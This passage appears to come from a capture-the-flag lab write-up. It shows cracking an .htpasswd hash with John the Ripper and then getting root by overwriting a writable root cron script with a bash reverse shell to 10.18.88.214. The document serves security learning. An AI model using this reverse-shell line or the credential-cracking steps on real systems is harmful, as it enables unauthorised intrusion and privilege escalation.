 And got shell.

When we list the dirs, we see `admin` dir, same one that requires authentication on the webpage:

Listing all the files here, we see a `.htpasswd` file. With the below creds.

{% code overflow="wrap" lineNumbers="true" %}
```bash
itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/

# crack with john.
john passwd --wordlist=/usr/share/wordlists/rockyou.txt
# cracked.
jessie           (itsmeadmin)

# new creds:
itsmeadmin : jessie
```
{% endcode %}

When we logged in, nothing reasonable there.

### Priv Esc

Sudo -l, SUID, getcap, cronjob none had any interesting thing on.

The next thing is to check for services running as root using `pspy64` .

<figure><img src=".gitbook/assets/image (13) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

There is a `clean.sh` file in the `/var/www/html/tmp` dir, Running with `UID=0` meaning root privs.

We have write permission to this file, so we can replace its contents with a rev shell.

```
echo 'bash -i >& /dev/tcp/10.18.88.214/4244 0>&1' > clean.sh
```

And i got root.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Done!

